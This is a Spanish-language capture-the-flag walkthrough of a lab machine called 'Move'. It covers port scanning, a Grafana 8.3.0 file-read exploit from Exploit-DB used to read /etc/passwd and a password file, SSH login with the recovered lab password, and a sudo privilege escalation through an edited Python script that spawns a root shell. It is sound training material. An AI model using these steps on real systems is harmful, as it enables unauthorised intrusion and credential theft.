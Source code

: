 Maquina: Move

Autor: El Pinguino de Mario

Dificultad: Facil

![Screenshot 2024-11-14 182124](https://github.com/user-attachments/assets/ba30a676-672a-4ec8-ae50-10572cfde490)

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

ping 172.17.0.2 -c 1

![Screenshot 2024-11-14 190703](https://github.com/user-attachments/assets/48c308b4-634e-480b-821c-37775f04516c)

despues scaneamos con nmap un escaneo de puertos y servicios detallado

nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

![Screenshot 2024-11-14 190720](https://github.com/user-attachments/assets/101b95b4-4844-4090-af75-8897c2d26206)

el puerto 22 perteneciente al servicio SSH y el puerto 80 perteneciente al servicio HTTP y el puerto 3000 están abiertos

volvemos a scanear con nmap para obtener más información sobre ese puerto específicamente.

sudo nmap -sCV -p22,80,3000 -v 172.17.0.2

![Screenshot 2024-11-14 191016](https://github.com/user-attachments/assets/77d20fe7-c9e9-4d4c-ac0a-4b2cac0da068)

El puerto 80 y el 3000 podemos encontrar servicios web y en el 3000 nos aparece una redirección a un panel de Login. 

![Screenshot 2024-11-14 190907](https://github.com/user-attachments/assets/41bc539a-7660-4a74-8f6e-dd065c47ea83)

![Screenshot 2024-11-14 190926](https://github.com/user-attachments/assets/748e135b-d660-4227-b5de-428e9d08ea61)

buscamos directorios con la herramienta Gobuster

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://172.17.0.2

Encontramos un archivo /maintenance.html

![Screenshot 2024-11-14 191143](https://github.com/user-attachments/assets/09a819e7-87c8-44be-8b41-5ae2d56d8800)

Hemos encontrado un encabezado en HTML que revela la ruta de un archivo potencialmente interesante, aunque actualmente no tenemos acceso al sistema para explorarlo más a fondo. Guardaremos esta información para usarla mas adelante.

![Screenshot 2024-11-14 191159](https://github.com/user-attachments/assets/10d83fa9-a34d-4e73-afba-37d17c50e6d8)

enumeramos del puerto 3000

Hemos encontrado un panel de inicio de sesión de Grafana. Lo más notable es que en la parte inferior del panel se muestra la versión específica del servicio.

la versión específica de Grafana que encontramos es vulnerable a un exploit que permite la lectura de archivos en el sistema.

searchsploit grafana 8.3.0

![Screenshot 2024-11-14 191242](https://github.com/user-attachments/assets/d4b790fc-6118-4965-bc28-14b1b3ee31a7)

copiamos el exploit que encontramos en exploit.db

![Screenshot 2024-11-14 191336](https://github.com/user-attachments/assets/7dcdfa16-0e40-4607-b981-81b801cad2ed)

creamos 50581.py y pegamos el exploit

![Screenshot 2024-11-14 191439](https://github.com/user-attachments/assets/a983c99e-f7a0-4555-a9b2-2bb34b86d0e2)

python3 50581.py -H http://172.17.0.2:3000

leemos el archivo /tmp/pass.txt

encontramos una contraseña

![Screenshot 2024-11-14 191701](https://github.com/user-attachments/assets/0cb57d2e-5103-4e38-9982-4d56b5e8a707)

leemos el archivo /etc/passwd

encontramos un usuario

![Screenshot 2024-11-14 192218](https://github.com/user-attachments/assets/8552b79a-e8a3-49f0-ad37-9eb409e2282a)

Vamos a conectarnos vía SSH con el usuario y contraseña

ssh freddy@172.17.0.2

t9sH76gpQ82UFeZ3GXZS

![Screenshot 2024-11-14 192556](https://github.com/user-attachments/assets/9e5d3fae-2379-4379-9412-518102d1970a)

Si hacemos un sudo -l nos aparece lo siguiente

Como podemos ejecutar el script mantienance.py como root lo que podemos hacer es modificar el script y hacer que al ejecutar spawnee una bash como root de la siguiente forma

![Screenshot 2024-11-14 192610](https://github.com/user-attachments/assets/ff893f94-03e5-43fb-94b0-22b2c0e3473c)

vamos hasta el directorio /opt 

nano maintenance.py

![Screenshot 2024-11-14 193917](https://github.com/user-attachments/assets/f96161b4-1e1c-4b27-9831-bd7dc9a9ce49)

import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")

![Screenshot 2024-11-14 194637](https://github.com/user-attachments/assets/c16f1978-226b-4e0b-adf5-6a822f0e54a1)

ejecutamos el archivo

sudo /usr/bin/python3 /opt/maintenance.py

whoami

![Screenshot 2024-11-14 194612](https://github.com/user-attachments/assets/fd4aee46-158b-4fbc-bdfb-bf61bd814563)
